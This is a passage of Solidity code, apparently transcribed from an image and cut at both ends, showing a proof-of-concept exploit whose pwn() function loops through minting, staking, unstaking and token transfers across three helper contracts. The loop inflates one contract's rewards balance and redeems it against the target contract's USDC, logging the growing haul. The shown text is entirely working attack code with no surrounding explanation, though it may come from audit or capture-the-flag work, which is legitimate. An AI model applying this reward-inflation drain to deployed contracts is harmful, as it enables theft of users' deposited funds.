 ```solidity
        b.set_addr_c(address(c));

        c.set_addr_a(address(a));
        c.set_addr_b(address(b));
    }

    function pwn() external {
        uint256 amount_1;
        uint256 amount_2;
        uint256 tokenId;
        uint256 tokenId2;
        uint256 tokenId3;
        uint256 c_rewards;
        uint256 m_balance;
        uint256 c_deposit;

        for (uint256 i = 0; i < 12; i++) {
            console.log("i", i);

            amount_1 = usdc.balanceOf(address(this)) - 100e6;
            if (i == 11)
                amount_1 = 364921e6 + 101e6;
            amount_2 = 100e6;

            console.log("amount_1", amount_1/1e6);

            usdc.transfer(address(a), amount_1);
            usdc.transfer(address(b), amount_2);

            tokenId = a.mintWithUSDC(address(a), amount_1);
            a.stake(tokenId, amount_1 - 20e6);

            tokenId2 = b.mintWithUSDC(address(b), amount_2);
            b.stake(tokenId2, amount_2 - 20e6);
            b.set_mode(1);
            b.unStake(address(b), tokenId2);
            b.set_mode(0);

            a.transferFrom(address(a), address(b), tokenId2);
            b.withdrawUSDC(tokenId2, m.getDeposit(tokenId2));
            b.claim();

            a.unStake(address(a), tokenId);
            a.withdrawUSDC(tokenId, m.getDeposit(tokenId));
            a.claim();

            // c should have inflated _rewardsBalance
            c_rewards = m.getAvailableRewards(address(c));
            console.log("_rewardsBalance[c]", c_rewards/1e6);

            usdc.transfer(address(c), amount_2);
            tokenId3 = c.mintWithUSDC(address(c), amount_2);
            c_deposit = m.getDeposit(tokenId3);
            if (c_deposit != 0)
                c.withdrawUSDC(tokenId3, c_deposit);
            m_balance = usdc.balanceOf(address(m));
            if (m_balance != 0)
                c.redeemCompoundRewards(tokenId3, c_rewards > m_balance ? m_balance : c_rewards);
            c.claim();

            console.log("balanceOf(this)", usdc.balanceOf(address(this))/1e6);
            console.log("usdc.balanceOf(m)", usdc.balanceOf(address(m))/1e6);
            console.log("cusdc.balanceOf(m)", cusdc.balanceOf(address(m)));
```